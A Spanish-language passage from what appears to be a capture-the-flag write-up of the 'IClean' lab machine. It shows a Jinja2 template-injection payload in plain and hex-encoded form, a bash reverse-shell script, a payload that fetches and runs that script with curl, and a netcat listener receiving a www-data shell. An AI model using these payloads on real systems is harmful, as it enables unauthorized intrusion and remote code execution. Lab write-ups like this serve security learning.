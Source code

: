 ~~~python
{{''.__class__.mro()[1].__subclasses__()[365]('id',shell=True,stdout=-1).communicate()[0].strip()}}
~~~

- Y encodeado en hexadecimal nos quedaría algo así:

~~~python
{{''["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]["\x5f\x5fsubclasses\x5f\x5f"]()[365]('id',shell=True,stdout=-1).communicate()[0].strip()}}
~~~

- Y con esto hemos creado una RCE:

![Pasted image 20240412232136](https://github.com/JoseVazquez101/Writteups/assets/111292579/c006b68f-9d07-4306-8890-e7fb3101908e)

- Inventé entablar revshells de muchas formas pero ninguna se ajustaba debido a las comillas, para librarme del encodeado hice lo siguiente.
- Me monté un server en Python con un archivo llamado `rev.sh` como contenido:

~~~bash
❯ cat rev.sh
bash -i >& /dev/tcp/10.10.16.50/4444 0>&1
~~~

- Mi payload fue el siguiente:

~~~bash
{{''["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]["\x5f\x5fsubclasses\x5f\x5f"]()[365]('curl http://10.10.16.50/rev.sh|bash',shell=True,stdout=-1).communicate()[0].strip()}}
~~~

- Y me puse en escucha por el puerto 4444, con esto recibí una conexión:

~~~bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.50] from (UNKNOWN) [10.10.11.12] 43142
bash: cannot set terminal process group (1214): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@iclean:/opt/app$ 
~~~

- Realicé un tratamiento de TTY y con esto podríamos comenzar con la escalada de privilegios.
- En este caso no lo hice de la manera convencional como suelo hacerlo en otras máquinas, porque me dio errores, así que solo spawneé una bash interactiva con Python

~~~bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

***

#### PrivEsc:

- De primeras vi que solo existen dos usuarios en el server:
